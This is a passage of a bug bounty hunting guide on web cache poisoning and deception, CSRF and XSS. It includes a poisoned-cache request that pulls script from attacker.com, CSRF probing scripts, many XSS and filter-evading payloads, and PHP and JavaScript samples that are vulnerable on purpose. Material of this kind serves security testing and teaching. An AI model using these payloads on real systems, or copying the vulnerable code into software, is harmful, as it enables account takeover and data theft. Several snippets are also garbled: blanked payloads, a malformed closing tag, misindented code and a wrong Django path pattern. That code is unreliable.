**Step 3**: Exploit the vulnerability manually, The attacker crafts a malicious request with a modified X-Forwarded-Host header:

```html
GET /news/show.php?id=2 HTTP/1.1
Host: example.com
X-Forwarded-Host: attacker.com
Connection: close

```

Since the `X-Forwarded-Host` header is unkeyed, the cache server considers the request as unique and stores the response from the backend server in its cache. The stored response contains the attacker's injected script tag:

```html

src='//attacker.com/static/js/news.js'>

```

Now, when a victim requests the same article (`id=2`), the cache server serves the poisoned response containing the attacker's script tag, potentially leading to a Cross-Site Scripting (XSS) attack or other malicious behavior.


### Web Cache Deception

In a Web Cache Deception attack, the attacker tricks the application into storing sensitive content belonging to another user in the cache. Then, the attacker retrieves this content from the cache. This attack was first introduced in a blog post in 2017 by [Omer Gil](https://omergil.blogspot.com/2017/02/web-cache-deception-attack.html) and was later discussed in an article by Cloudflare.Steps:

1. Identify if the application uses a cache server or not: While this step is optional, identifying the presence of a cache server can help the attacker understand the potential risk and target the attack more effectively. The attacker can look for cache-related headers in the HTTP responses, such as Cache-Control, Age, or X-Cache.
2. Scan various requests using the Web Cache Deception tool: The attacker uses a tool like the Web Cache Deception Burp Suite extension to scan and analyze requests. This helps identify potential URL patterns that could be vulnerable to cache deception attacks. The tool works by sending crafted requests to the application and observing the responses to find sensitive information that may be cached.
3.  Try to exploit the vulnerability manually: Once a potential vulnerability is identified, the attacker can try to exploit it manually. In the provided example, the attacker appends a nonexistent file (nonexistent.css) to a URL that contains sensitive information (/account.php).

    * The victim's browser sends a request for http://www.example.com/account.php/nonexistent.css. The application server processes the request and sends the sensitive information in the response.
    * The cache server stores the response containing the sensitive information.
    * The attacker then sends a request for the same URL (http://www.example.com/account.php/nonexistent.css) and retrieves the cached response containing the victim's sensitive information.

    In the provided Django URL configuration examples (Case 1 and Case 2), the attacker might append a nonexistent CSS file (like something.css or profile.css) to the /profile or /profile/ URLs to exploit the Web Cache Deception vulnerability.

What must a hunter notice to proceed? A bug bounty hunter should look for the following signs to proceed with identifying and exploiting Web Cache Deception vulnerabilities:

* The presence of a cache server is indicated by cache-related headers in HTTP responses.
* Sensitive information is returned in responses for crafted URLs with appended nonexistent files (e.g., nonexistent.css).
* URLs with sensitive information that could be appended with nonexistent files to exploit the vulnerability.
* Responses containing sensitive information that are not properly secured and are cached by the cache server.


**Identify if the application uses a cache server or not,** The attacker can check the HTTP response headers for cache-related headers:

```python
import requests

response = requests.get("http://www.example.com/account.php")

if "cache-control" in response.headers or "age" in response.headers or "x-cache" in response.headers:
    print("A cache server might be present.")
else:
    print("No cache-related headers found.")

```

**Scan various requests using the Web Cache Deception tool,** Using the Web Cache Deception Burp Suite extension, the attacker can scan and analyze requests. Here's a sample Python script using the [Burp Suite Python API](https://github.com/PortSwigger/burp-api-python) to send a request and analyze the response:

```python
from burp import IBurpExtender, IHttpRequestResponse
import re

class BurpExtender(IBurpExtender):
    def processHttpMessage(self, tool_name, is_request, message):
        if is_request:
            response = self._burp.makeHttpRequest(message)

            # Check if the response contains sensitive information
if "sensitive_info" in response.getBody():
                print("Sensitive information found!")

```

**Try to exploit the vulnerability manually**, The attacker crafts a request with an appended nonexistent file to exploit the vulnerability:

```python
import requests

# The attacker sends a request with an appended nonexistent file
response = requests.get("http://www.example.com/account.php/nonexistent.css")

# Check if the response contains the sensitive information
if "sensitive_info" in response.text:
    print("Exploit successful! Sensitive information retrieved.")
else:
    print("Exploit unsuccessful.")

```

**Django URL Configuration Examples:**

Case 1:

```python
"""mysite URL Configuration[...]"""
from django.contrib import admin
from django.urls import path

urlpatterns = [
    path('^profile/', admin.site.urls),
]

```

Case 2:

```python
"""mysite URL Configuration[...]"""
from django.contrib import admin
from django.urls import path

urlpatterns = [
    path('^profile', admin.site.urls),
]

```


### <mark style="color:red;">Cross-Site Request Forgery</mark>

To find Cross-Site Request Forgery (CSRF) vulnerabilities in a web application, a bug bounty hunter should follow a systematic methodology. Here's a step-by-step guide on how to approach CSRF testing:

1. **Identify Entry Points**: Start by identifying potential entry points for CSRF vulnerabilities. These can be forms, links, or any other user-controlled input that can initiate requests to the server. Entry points are locations within a web application where a user can provide input or make a request that may lead to a CSRF vulnerability.&#x20;
2. **Test for CSRF Vulnerabilities**: Test each identified entry point for CSRF vulnerabilities. This can be done by trying to submit forms or performing actions that should require authentication without the presence of a valid CSRF token.
3. **Identify CSRF Tokens**: Look for CSRF tokens in the form of data, headers, or cookies. These tokens are used to validate requests and prevent CSRF attacks.
4. **Test for Token Validation**: Test if the application properly validates the presence and correctness of the CSRF token before processing any requests.
5. **Test for Token Tampering**: Try to tamper with the CSRF token, such as modifying it or omitting it entirely, and observe the application's behavior.
6. **Test for Token Reusability**: Check if the same CSRF token can be used more than once, potentially leading to unauthorized actions.
7. **Test for Token Expiration**: Verify if the CSRF token has an expiration time and if it's properly enforced.
8. **Test for Token Leakage**: Check if the CSRF token is leaked in responses or logs, allowing an attacker to steal or reuse it.
9. **Test for Token Predictability**: Look for patterns or trends in the CSRF token generation process, as predictable tokens may make CSRF attacks easier.
10. **Test for Token Integrity**: Ensure that the CSRF token is properly generated and not guessable or predictable.
11. **Test for Token Scope**: Check if the CSRF token is valid for the intended scope or if it can be used across different scopes.


**Identify Entry Points**

```python
import requests
from bs4 import BeautifulSoup

# Send a GET request to the application
response = requests.get("http://www.example.com/form.php")

# Parse the response content using BeautifulSoup
soup = BeautifulSoup(response.content, 'html.parser')

# Find the form in the parsed HTML
form = soup.find("form")

# Check if the form has a CSRF token
if not form.find("input", attrs={"name": "csrf_token"}):
    print("Entry point identified: form.php")
else:
    print("No entry point found in form.php")

```

**Test for CSRF Vulnerabilities**

```python
import requests

# Try to submit a request to a protected endpoint without a valid CSRF token
data = {
    "action": "delete",
    "id": 123
}

response = requests.post("http://www.example.com/delete.php", data=data)

# Check if the request was successful
if response.status_code == 200:
    print("CSRF vulnerability found!")
else:
    print("No CSRF vulnerability found.")

```

**Identify CSRF Tokens**

```python
import requests
from bs4 import BeautifulSoup

# Send a GET request to the application
response = requests.get("http://www.example.com/form.php")

# Parse the response content using BeautifulSoup
soup = BeautifulSoup(response.content, 'html.parser')

# Find the CSRF token in the parsed HTML
token = soup.find("input", attrs={"name": "csrf_token"})["value"]

# Print the identified CSRF token
print("CSRF token:", token)

```

**Test for Token Validation**

```python
import requests

# Try to submit a request with an invalid CSRF token
data = {
    "action": "delete",
    "id": 123,
    "csrf_token": "invalid_token"
}

response = requests.post("http://www.example.com/delete.php", data=data)

# Check if the request was successful
if response.status_code == 200:
    print("Token validation vulnerability found!")
else:
    print("No token validation vulnerability found.")

```


#### Methodology

1. **Identify State-Changing Requests**: The bug bounty hunter should look for requests that modify the state of the application, such as form submissions, updates, deletions, etc. These requests are typically associated with user actions that should require authentication.
2. **Test for CSRF Vulnerabilities**: The bug bounty hunter should manually test each identified entry point for CSRF vulnerabilities. They should try to submit forms or perform actions that should require authentication without the presence of a valid CSRF token.
3. **Identify CSRF Tokens**: The bug bounty hunter should look for CSRF tokens in the form of data, headers, or cookies. These tokens are used to validate requests and prevent CSRF attacks.
4. **Test for Token Validation**: The bug bounty hunter should test if the application properly validates the presence and correctness of the CSRF token before processing any requests.
5. **Test for Token Tampering**: The bug bounty hunter should try to tamper with the CSRF token, such as modifying it or omitting it entirely, and observe the application's behavior.
6. **Test for Token Reusability**: The bug bounty hunter should check if the same CSRF token can be used more than once, potentially leading to unauthorized actions.
7. **Test for Token Expiration**: The bug bounty hunter should verify if the CSRF token has an expiration time and if it's properly enforced.
8. **Test for Token Leakage**: The bug bounty hunter should check if the CSRF token is leaked in responses or logs, allowing an attacker to steal or reuse it.
9. **Test for Token Predictability**: The bug bounty hunter should look for patterns or trends in the CSRF token generation process, as predictable tokens may make CSRF attacks easier.
10. **Test for Token Integrity**: The bug bounty hunter should ensure that the CSRF token is properly generated and not guessable or predictable.
11. **Test for Token Scope**: The bug bounty hunter should check if the CSRF token is valid for the intended scope or if it can be used across different scopes.


**Identify State-Changing Requests**

Example 1

```python
import requests

# Send a GET request to the application
response = requests.get("http://www.example.com/add_to_cart.php")

# Check if the response content includes a form
if "form" in response.content:
    print("State-changing request identified: add_to_cart.php")
else:
    print("No state-changing request found in add_to_cart.php")

```

Example 2

```python
import requests

# Send a POST request with a new blog post to the application
data = {
    "title": "My New Post",
    "content": "This is a new blog post."
}
response = requests.post("http://www.example.com/create_post.php", data=data)

# Check if the response indicates a successful creation
if "Post created" in response.content:
    print("State-changing request identified: create_post.php")
else:
    print("No state-changing request found in create_post.php")

```

**Test for CSRF Vulnerabilities**

Example 1

```python
import requests

# Try to submit a request to a protected endpoint without a valid CSRF token
data = {
    "product_id": 123
}

response = requests.post("http://www.example.com/add_to_cart.php", data=data)

# Check if the request was successful
if response.status_code == 200:
    print("CSRF vulnerability found in add_to_cart.php!")
else:
    print("No CSRF vulnerability found in add_to_cart.php.")

```

Example 2

```python
import requests

# Try to submit a request with an invalid CSRF token
data = {
    "title": "My New Post",
    "content": "This is a new blog post.",
    "csrf_token": "invalid_token"
}

response = requests.post("http://www.example.com/create_post.php", data=data)

# Check if the request was successful
if response.status_code == 200:
    print("CSRF vulnerability found in create_post.php!")
else:
    print("No CSRF vulnerability found in create_post.php.")

```

**Identify CSRF Tokens**

Example 1

```python
import requests
from bs4 import BeautifulSoup

# Send a GET request to the application
response = requests.get("http://www.example.com/add_to_cart.php")

# Parse the response content using BeautifulSoup
soup = BeautifulSoup(response.content, 'html.parser')

# Find the CSRF token in the parsed HTML
token = soup.find("input", attrs={"name": "csrf_token"})["value"]

# Print the identified CSRF token
print("CSRF token found in add_to_cart.php:", token)

```

Example 2

```python
import requests

# Send a GET request to the application
response = requests.get("http://www.example.com/create_post.php")

# Check if the response headers include a CSRF token
if "x-csrf-token" in response.headers:
    token = response.headers["x-csrf-token"]
    print("CSRF token found in create_post.php:", token)
else:
    print("No CSRF token found in create_post.php.")

```

**Test for Token Validation**

Example 1

```python
import requests

# Send a valid request with a proper CSRF token
data = {
    "product_id": 123,
    "csrf_token": "valid_token"
}

response = requests.post("http://www.example.com/add_to_cart.php", data=data)

if response.status_code == 200:
    print("Valid CSRF token accepted in add_to_cart.php.")
else:
    print("Valid CSRF token not accepted in add_to_cart.php.")

```

Example 2

```python
import requests

# Send a request with a missing CSRF token
data = {
    "title": "My New Post",
    "content": "This is a new blog post."
}

response = requests.post("http://www.example.com/create_post.php", data=data)

if response.status_code == 200:
    print("Missing CSRF token not detected in create_post.php.")
else:
    print("Missing CSRF token detected in create_post.php.")

```

**Test for Token Tampering**

Example 1

```python
import requests

# Send a request with a tampered CSRF token
data = {
    "product_id": 123,
    "csrf_token": "tampered_token"
}

response = requests.post("http://www.example.com/add_to_cart.php", data=data)

if response.status_code == 200:
    print("Tampered CSRF token accepted in add_to_cart.php.")
else:
    print("Tampered CSRF token not accepted in add_to_cart.php.")

```

Example 2

```python
import requests

# Send a request with a tampered CSRF token
data = {
    "title": "My New Post",
    "content": "This is a new blog post.",
    "csrf_token": "tampered_token"
}

response = requests.post("http://www.example.com/create_post.php", data=data)

if response.status_code == 200:
    print("Tampered CSRF token accepted in create_post.php.")
else:
    print("Tampered CSRF token not accepted in create_post.php.")

```

**Test for Token Reusability**

Example 1

```python
import requests

# Send two requests with the same CSRF token
data = {
    "product_id": 123,
    "csrf_token": "valid_token"
}

response_1 = requests.post("http://www.example.com/add_to_cart.php", data=data)
response_2 = requests.post("http://www.example.com/add_to_cart.php", data=data)

if response_1.status_code == 200 and response_2.status_code == 200:
    print("Reused CSRF token accepted in add_to_cart.php.")
else:
    print("Reused CSRF token not accepted in add_to_cart.php.")

```

Example 2

```python
import requests

# Send two requests with the same CSRF token
data = {
    "title": "My New Post",
    "content": "This is a new blog post.",
    "csrf_token": "valid_token"
}

response_1 = requests.post("http://www.example.com/create_post.php", data=data)
response_2 = requests.post("http://www.example.com/create_post.php", data=data)

if response_1.status_code == 200 and response_2.status_code == 200:
    print("Reused CSRF token accepted in create_post.php.")
else:
    print("Reused CSRF token not accepted in create_post.php.")

```

**Test for Token Expiration**

Example 1

```python
import requests
import time

# Send a request with a valid CSRF token
data = {
    "product_id": 123,
    "csrf_token": "valid_token"
}

# Wait for a certain period (e.g., 10 minutes)
time.sleep(600)

# Send another request with the same CSRF token
response_2 = requests.post("http://www.example.com/add_to_cart.php", data=data)

if response_2.status_code == 200:
    print("Expired CSRF token accepted in add_to_cart.php.")
else:
    print("Expired CSRF token not accepted in add_to_cart.php.")

```

Example 2

```python
import requests
import time

# Send a request with a valid CSRF token
data = {
    "title": "My New Post",
    "content": "This is a new blog post.",
    "csrf_token": "valid_token"
}

# Wait for a certain period (e.g., 10 minutes)
time.sleep(600)

# Send another request with the same CSRF token
response_2 = requests.post("http://www.example.com/create_post.php", data=data)

if response_2.status_code == 200:
    print("Expired CSRF token accepted in create_post.php.")
else:
    print("Expired CSRF token not accepted in create_post.php.")

```

**Test for Token Leakage**

Example 1

```python
import requests

# Send a request to the application
response = requests.get("http://www.example.com/add_to_cart.php")

# Check if the CSRF token is present in the response content
if "csrf_token" in response.content:
    print("CSRF token leaked in response content of add_to_cart.php.")
else:
    print("No CSRF token leaked in response content of add_to_cart.php.")

```

Example 2

```python
import requests

# Send a request to the application
response = requests.get("http://www.example.com/create_post.php")

# Check if the CSRF token is present in the response headers
if "x-csrf-token" in response.headers:
    print("CSRF token leaked in response headers of create_post.php.")
else:
    print("No CSRF token leaked in response headers of create_post.php.")

```

**Test for Token Predictability**

Example 1

```python
import requests
import time

# Send multiple requests to the application and collect CSRF tokens
for _ in range(10):
    response = requests.get("http://www.example.com/add_to_cart.php")
    token = response.content.split("csrf_token\" value=\"")[1].split("\"")[0]
    print("CSRF token:", token)
    time.sleep(1)  # Wait for 1 second between requests

```

Example 2

```python
import requests
import time

# Send multiple requests to the application and collect CSRF tokens
for _ in range(10):
    response = requests.get("http://www.example.com/create_post.php")
    token = response.headers["x-csrf-token"]
    print("CSRF token:", token)
    time.sleep(1)  # Wait for 1 second between requests

```

Test for Token Integrity

Example 1

```python
import requests
import random

# Generate a random token
random_token = ''.join(random.choices("abcdefghijklmnopqrstuvwxyz0123456789", k=32))

# Attempt to use a random token in a request
data = {
    "product_id": 123,
    "csrf_token": random_token
}

response = requests.post("http://www.example.com/add_to_cart.php", data=data)

if response.status_code == 200:
    print("Guessed CSRF token accepted in add_to_cart.php.")
else:
    print("Guessed CSRF token not accepted in add_to_cart.php.")

```

Example 2

```python
import requests
import random

# Generate a random token
random_token = ''.join(random.choices("abcdefghijklmnopqrstuvwxyz0123456789", k=32))

# Attempt to use a random token in a request
data = {
    "title": "My New Post",
    "content": "This is a new blog post.",
    "csrf_token": random_token
}

response = requests.post("http://www.example.com/create_post.php", data=data)

if response.status_code == 200:
    print("Guessed CSRF token accepted in create_post.php.")
else:
    print("Guessed CSRF token not accepted in create_post.php.")

```

**Test for Token Scope**

Example 1

```python
import requests

# Send a request to obtain a CSRF token from one scope
response_1 = requests.get("http://www.example.com/add_to_cart.php")
token = response_1.content.split("csrf_token\" value=\"")[1].split("\"")[0]

# Attempt to use the token in a different scope
data = {
    "title": "My New Post",
    "content": "This is a new blog post.",
    "csrf_token": token
}

response_2 = requests.post("http://www.example.com/create_post.php", data=data)

if response_2.status_code == 200:
    print("CSRF token valid across different scopes.")
else:
    print("CSRF token not valid across different scopes.")

```

Example 2

```python
import requests

# Send a request to obtain a CSRF token from one scope
response_1 = requests.get("http://subdomain.example.com/add_to_cart.php")
token = response_1.headers["x-csrf-token"]

# Attempt to use the token in a different scope
data = {
    "product_id": 123,
    "csrf_token": token
}

response_2 = requests.post("http://www.example.com/add_to_cart.php", data=data)

if response_2.status_code == 200:
    print("CSRF token valid across different scopes.")
else:
    print("CSRF token not valid across different scopes.")

```


Some tools can help to identify vulnerable endpoints on a web application for CSRF testing purposes. Here are a few examples:

1. **Burp Suite**: Burp Suite includes a "Spider" feature that can be used to crawl the target application and identify potential endpoints that might be vulnerable to CSRF attacks.
2. **OWASP ZAP**: OWASP ZAP includes a "Spider" feature that can be used to crawl the target application and identify potential endpoints.
3. **Wfuzz**: Wfuzz is a tool that can be used to fuzz endpoints and identify potential vulnerabilities. It can be used to find endpoints that accept POST requests and might be vulnerable to CSRF attacks.
4. **Dirbuster**: Dirbuster is a tool that can brute-force directories and files on a web server to identify potential endpoints.
5. **Nmap**: Nmap can scan for web servers and identify potential endpoints. It can be used to find directories and files vulnerable to CSRF attacks.

Other Tools:

1. **CSRF PoC Generator**: There are online tools available that can generate CSRF PoCs for testing purposes. These tools can be used to test if an application is vulnerable to CSRF attacks.
2. **CSRF Tester**: CSRF Tester is a Python-based tool that can be used to test for CSRF vulnerabilities. It can generate CSRF PoCs and test if an application is vulnerable.
3. **CSRF Probe**: CSRF Probe is a Ruby-based tool that can be used to test for CSRF vulnerabilities. It can generate CSRF PoCs and test if an application is vulnerable.
4. **CSRF Scanner**: CSRF Scanner is a Python-based tool that can be used to scan websites for CSRF vulnerabilities. It can detect if an application is vulnerable to CSRF attacks.
5. **CSRF Proxy**: CSRF Proxy is a tool that can be used to intercept and modify outgoing HTTP requests to test for CSRF vulnerabilities.
6. **CSRF Tester**: CSRF Tester is a tool that can be used to test for CSRF vulnerabilities by simulating user interactions.
7. **CSRF Tool**: The CSRF Tool is a tool that can be used to test for CSRF vulnerabilities by automating the process of generating and submitting CSRF PoCs.


### <mark style="color:red;">Cross-Site Scripting</mark>

Cross-site scripting (XSS) is a client-side security vulnerability that arises when an attacker can inject malicious scripts into web pages viewed by other users. These scripts can execute in the victim's browser, potentially leading to data theft, session hijacking, or other harmful actions. XSS vulnerabilities can be found in various parts of a web application, such as user input fields, error messages, or dynamically generated content.

<figure><figcaption></figcaption></figure>

An attacker could inject JavaScript code into a vulnerable web application, which will then be executed in the user's browser. This can lead to various types of attacks, such as stealing session cookies, redirecting users to malicious websites, or even defacing the application.

XSS Discovery is the process of identifying and exploiting XSS vulnerabilities in a web application. It involves manually testing the application's input fields, URL parameters, and other user-supplied data to see if they are properly sanitized or validated before being displayed.

Here's an example of a simple XSS vulnerability in a web application:

```html
<!DOCTYPE html>
<html>
<head>
  <title>XSS Example</title>
</head>
<body>
  <h1>Welcome to our website</h1>
  <p>Your name: <span id="userName"></span></p>

  <script>
    // Get the user's name from the URL parameter
    var name = getUrlParameter('name');

    // Display the user's name on the page
    document.getElementById('userName').innerHTML = name;

    function getUrlParameter(name) {
      name = name.replace(/[\[]/, '\\[').replace(/[\]]/, '\\]');
      var regex = new RegExp('[\\?&]' + name + '=([^&#]*)');
      var results = regex.exec(location.search);
      return results === null ? '' : decodeURIComponent(results[1].replace(/\+/g, ' '));
    }
  </script>
</body>
</html>
```

In this example, the `name` parameter is retrieved from the URL and displayed on the page without proper sanitization. If an attacker enters `<script>alert('XSS');</script>` as the name parameter, the script will be executed in the browser, resulting in a pop-up alert message.


To identify XSS vulnerabilities, a bug bounty hunter should follow these steps:

1. **Input Testing**: Test all input fields, parameters, and cookies for the potential to inject scripts. This can be done by entering various XSS payloads, such as `<script>alert(1)</script>`, ``, or `"><script>alert(1)</script>`, and observing the application's behavior and response.
2. **Reflected XSS**: Look for instances where user-supplied input is immediately returned in the application's response without proper sanitization or encoding. For example, consider a search function that displays the user's query directly on the results page without properly escaping special characters. An attacker could craft a malicious URL with embedded XSS payloads and trick a victim into clicking it, causing the script to execute in the victim's browser.
3. **Stored XSS**: Test for scenarios where user-provided data is stored in the application and later displayed to other users. For example, a blog commenting system or a user profile page could be susceptible to stored XSS attacks if user-supplied content isn't properly validated or sanitized. An attacker could submit malicious scripts in a comment or profile information, which would execute when other users view the affected page.
4. **DOM-based XSS**: Examine client-side scripts that dynamically manipulate the Document Object Model (DOM) using user-supplied data. DOM XSS occurs when user-provided input is included in the DOM without proper validation or escaping, allowing an attacker to modify the DOM and execute malicious scripts. To identify DOM XSS vulnerabilities, analyze JavaScript code and test for cases where input can be manipulated to produce unexpected behavior or execute scripts.


**Reflected XSS**

A simple search function that reflects user input in the results page without proper sanitization or encoding:

```php
<?php
if (isset($_GET['search'])) {
        $query = $_GET['search'];
    } else {
        $query = "";
    }
?>
<html>
    <body>
        <h2>Search Results:</h2>
        <?php echo "You searched for: " . $query; ?>
</body>
</html>

```

In this case, an attacker could craft a malicious URL, such as `http://www.example.com/search.php?search=<script>alert(1)</script>` , and trick a victim into clicking it. This would execute the `<script>alert(1)</script>` payload and display a pop-up message in the victim's browser.

**Stored XSS**

A guestbook application that stores user-provided comments without proper validation or encoding:

```php
<?php
// Assume a database connection is established and the user's comment is stored in $comment
// Store the user's comment in the database
$sql = "INSERT INTO comments (comment_text) VALUES ('$comment')";
    // Execute the SQL query (omitted for brevity)
// Retrieve and display all comments
$sql = "SELECT comment_text FROM comments";
    // Execute the SQL query and fetch results (omitted for brevity)
foreach ($comments as $comment) {
        echo "<p>" . $comment['comment_text'] . "</p>";
    }
?>

```

An attacker could submit a comment containing a malicious script, such as `<script>alert(1)</script>`. When other users view the guestbook, the stored XSS payload will execute in their browsers.

**DOM-based XSS**

A client-side script that uses user-provided input to dynamically update the DOM without proper validation or encoding:

```html
<html>
<body>
<h1>Welcome!</h1>
<p>Enter your name:</p>
<input type="text" id="name" />
<button onclick="showMessage()">Display Message</button>
<script>
function showMessage() {
                var name = document.getElementById("name").value;
                var message = "<h2>Hello, " + name + "!</h2>";
                document.body.innerHTML += message;
            }
        </script>
</body>
</html>

```

In this case, an attacker could input a malicious script, such as `<script>alert(1)</script>`, in the name field. Clicking the "Display Message" button would dynamically insert the script into the DOM and execute it in the victim's browser.


For more information:



XSS Test:

Which one of the following codes is valid for XSS?


```html
<body onload="console.log('&#39;);&#x61;lert(1);//')"><iframe srcdoc="&lt;svg/onload=alert(4)&gt;"></iframe><a href="&#74;avascript&colon;alert(origin)">test</a><a href=&#74;avascript&colon;alert(origin)>test</a><a/href=javascript&colon;alert()>click<a href="j\u0061vascript:\u0061lert();">test</a>
```



```html
<body onload="console.log('');alert(1);//')"><iframe srcdoc="<svg/onload=alert(4)>"></iframe> -> <svg onload="alert(4)"></svg><a href="Javascript:alert(origin)">test</a><a href=Javascript:alert(origin)>test</a><a href="javascript:alert()">click</a><a href="j\u0061vascript:\u0061lert();">test</a>
```


The payloads provided contain various types of XSS attacks. Here's a breakdown of the valid payloads and their corresponding browser outputs:

1. `<body onload="console.log('');alert(1);//">`: This payload is valid and will trigger an alert box with the message "1" when the page loads. It uses a single quote and a backslash to escape the single quote inside the `console.log()` call.
2. ``: This payload is also valid and will trigger an alert box with the message "2" when the image fails to load. It uses a double quote and a backslash to escape the double quote inside the `console.log()` call.
3. ``: This payload is valid and will trigger an alert box with the message "3" when the image fails to load. It uses a Unicode character to represent the letter "a" and the `alert()` function.
4. `<iframe srcdoc="<svg/onload=alert(4)>">`: This payload is valid and will trigger an alert box with the message "4" when the iframe is loaded. It uses an SVG element with an `onload` event to execute the `alert()` function.
5. `<a href="Javascript:alert(origin)">test</a>`: This payload is valid and will trigger an alert box with the message "origin" when clicked. It uses the `origin` property to retrieve the origin of the current URL.
6. `<a href=Javascript:alert(origin)>test</a>`: This payload is also valid and will trigger an alert box with the message "origin" when clicked. It uses the `origin` property to retrieve the origin of the current URL.
7. `<a href="javascript:alert()">click</a>`: This payload is valid and will trigger an alert box when clicked. It uses the `alert()` function without any parameters.
8. `<a href="j\u0061vascript:\u0061lert();">test</a>`: This payload is valid and will trigger an alert box when clicked. It uses a Unicode character to represent the letter "j" and the `alert()` function.

In the browser, the `<a>` tags will be rendered as clickable links and the `<iframe>` will display an SVG element with an `onload` event that will trigger the `alert()` function. The `` tags will not display any image, but they will attempt to load the image and trigger the `onerror` event, which will execute the `alert()` function.


### DOM Based XSS

**Source**

In the context of DOM-based XSS, a source refers to the location where the data is retrieved by the application. Here are some examples:

1. `document.url`, `document.location.hash`: JavaScript can access and manipulate the current URL and its components, including query parameters. If an attacker can control part of the URL, they might be able to exploit a DOM-based XSS vulnerability.
2. `document.referer`, `window.name`: These properties provide information about the originating page or the browser window name, which could be manipulated for XSS attacks.
3. `Ajax`, `Websockets`, and `Webmessaging`: These communication methods can also be sources of data for DOM-based XSS attacks if proper validation is not implemented on the client side.
4. `Cookies`, `Localstorage`, and `SessionStorage`: If user-controllable data is stored in these browser storage mechanisms, it could be used to exploit a DOM-based XSS vulnerability.

**Sink**

A sink refers to the location where data is passed into and potentially executed or processed in a way that can lead to XSS vulnerabilities. Here are some examples:

1. JavaScript execution sinks:
   * `eval(payload)`: Directly evaluates the provided string as JavaScript code.
   * `setTimout(payload,100)`: Schedules a timeout function with the provided string as code to be executed.
   * `<div onclick="payload">`: Embeds the provided string as JavaScript code to be executed when the element is clicked.
2. JavaScript URI sinks:
   * `document.location = payload`: Sets the current location to the provided string, potentially redirecting the user to a malicious site.
   * `location.href = payload`, `window.open = payload`, `location.replace`: These methods also manipulate the current location using the provided string.
3. HTML execution sinks:
   * `htmlElement.innerHTML=payload`: Updates the inner HTML content of an element with the provided string.
   * `document.write(payload)`: Writes the provided string into the HTML document.
4. HTML modification to behavior change:
   * `(element).src` or `(element).href` (in certain elements): Manipulating these attributes in specific HTML elements could lead to XSS vulnerabilities if user-controllable data is used.


### XSS Post Message

Here is the methodology flow for identifying and exploiting Cross-Site Scripting (XSS) vulnerabilities through the postMessage API:

1. **Understand the postMessage API**:
   * Learn how the postMessage API works, its features, and common misconfigurations that can lead to vulnerabilities.
2. **Identify postMessage usage**:
   * Analyze the target application's JavaScript code to identify instances where postMessage is used for cross-origin communication.
   * Look for both the sending and receiving ends of the messages.
3. **Check origin validation**:
   * Examine the origin validation logic in the postMessage event listener.
   * Identify if the origin validation is insufficient, potentially allowing an attacker to send malicious messages from an attacker-controlled origin.
4. **Craft a malicious message**:
   * Develop a malicious payload that, when received by the target application, results in the execution of arbitrary JavaScript.
   * This could be a simple proof-of-concept, such as `<script>alert(1)</script>`, or a more sophisticated payload.
5. **Test the attack**:
   * Host the malicious payload on an attacker-controlled domain and send a postMessage to the vulnerable application.
   * If the origin validation is insufficient, the malicious message will be processed by the target application, and the payload will execute in the victim's browser.
6. **Verify the impact**:
   * Observe the behavior of the target application after executing the malicious payload.
   * Determine the severity of the vulnerability, which could range from executing arbitrary JavaScript to stealing sensitive data, performing actions on behalf of the victim user, or escalating privileges within the application.
7. **Develop a proof-of-concept (PoC)**:
   * Create a clear and concise PoC to demonstrate the XSS vulnerability and its potential impact.
   * This will help the application owners understand the severity of the issue and take appropriate remediation measures.
8. **Report the vulnerabilities**:
   * Submit the XSS vulnerabilities to the bug bounty program or the application owner.
   * Provide detailed information about the vulnerabilities, including the payloads, impact, and steps to reproduce.
9. **Receive compensation**:
   * If the vulnerabilities are accepted by the application owner, the bug bounty program will compensate the attacker based on the severity and impact of the vulnerabilities.
   * The compensation can include monetary rewards or recognition for reporting the vulnerabilities responsibly.


**Understand the postMessage API**


```javascript
// Sender window
const recipientWindow = document.querySelector('iframe').contentWindow;
recipientWindow.postMessage({ greeting: 'Hello, world!' }, 'https://recipient-origin.com');

```


**Identify postMessage usage**


```javascript
// Sender window
const recipientWindow = document.querySelector('iframe').contentWindow;
recipientWindow.postMessage({ message: userInput }, '*'); // Insecure origin validation

```


**Check origin validation**

```javascript
// Sender window
const recipientWindow = document.querySelector('iframe').contentWindow;
const recipientOrigin = 'https://recipient-origin.com';
recipientWindow.postMessage({ message: userInput }, recipientOrigin);

```

**Craft a malicious message**

```javascript
const payload = '<script>alert(1)</script>';
```

**Test the attack**

```javascript
const recipientWindow = document.querySelector('iframe').contentWindow;
recipientWindow.postMessage({ message: payload }, '*');
```


Here is an integrated and categorized methodology flow for bypassing a Web Application Firewall (WAF) to achieve Cross-Site Scripting (XSS) as a bug bounty hunter:

1. **Reconnaissance and Identification**:
   * Analyze the target application and its underlying technologies to identify potential entry points for XSS attacks.
   * Check if the application uses a WAF and identify the specific WAF in use. This can be done using tools like Wafw00f or by analyzing HTTP headers and cookies.
2. **WAF Research and Understanding**:
   * Research and gather information on known bypass techniques for the identified WAF, focusing on those related to XSS attacks.
   * Analyze the WAF's ruleset and understand its filtering mechanisms, such as blacklisting, whitelisting, or rule-based detection.
3. **Payload Development and Testing**:
   * Develop custom payloads that can bypass the WAF's detection mechanisms.
   * Use techniques like obfuscation, encoding, and case variations to create innovative payloads.
   * Test the payloads on the target application and observe the WAF's response.
   * Experiment with different payloads, including newer HTML tags that may have a higher chance of bypassing the WAF.
   * Explore alternatives for common functions like `alert()` and use techniques like Unicode characters or HTML-encoded values to confuse the WAF.
4. **Exploit the XSS Vulnerabilities**:
   * Once a bypass technique or payload successfully evades the WAF, inject the payload into the application to gain unauthorized access or perform malicious actions.
   * Leverage the executed JavaScript code to achieve the desired objectives, such as stealing sensitive data or performing actions on behalf of the victim user.
5. **Report the Vulnerabilities**:
   * Document the successful bypass technique and create a clear and concise proof-of-concept (PoC) for reporting the vulnerability.
   * Submit the XSS vulnerabilities, along with the bypass methodology, to the bug bounty program or the application owner.
   * Provide detailed information about the vulnerabilities, including the payloads, impact, and steps to reproduce.
6. **Receive Compensation**:
   * If the vulnerabilities are accepted by the application owner, the bug bounty program will compensate the attacker based on the severity and impact of the vulnerabilities.
   * The compensation can include monetary rewards or recognition for reporting the vulnerabilities responsibly.


**Sample Scenario 1**

You are a bug bounty hunter targeting a web application that uses a well-known Web Application Firewall (WAF) to protect against Cross-Site Scripting (XSS) attacks.

Step 1: Research the WAF

Search online for known bypasses and vulnerabilities related to the WAF in question. For example, assume you find that the WAF can be bypassed using the `Java\tScript` alternative.

Step 2: Fuzzing

Use a tool like Burp Suite to send various XSS payloads and observe the server's responses. In our example, assume you discover that the WAF detects and blocks the `<script>alert(1)</sript>` payload.

Step 3: Exploit the WAF's limitations

